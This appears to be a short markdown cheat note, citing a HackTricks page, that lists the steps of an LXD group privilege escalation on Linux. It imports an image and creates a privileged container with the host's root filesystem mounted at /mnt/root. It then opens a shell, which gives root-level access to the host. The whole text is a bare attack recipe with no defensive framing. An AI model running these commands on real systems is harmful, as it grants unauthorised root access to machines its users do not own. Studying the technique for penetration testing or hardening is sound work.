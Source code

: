 ## Source: https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

## Steps:

#### 1) lxc image list

#### 2) Upload image to target

#### 3) lxc image import <image.tar.gz> --alias myalpine

#### 4) lxc init myalpine jimmy -c security.privileged=true

#### 5) lxc config device add jimmy mydevice disk source=/ path=/mnt/root recursive=true

#### 6) lxc start jimmy

#### 7) lxc exec jimmy /bin/sh

#### 8) GGWP!
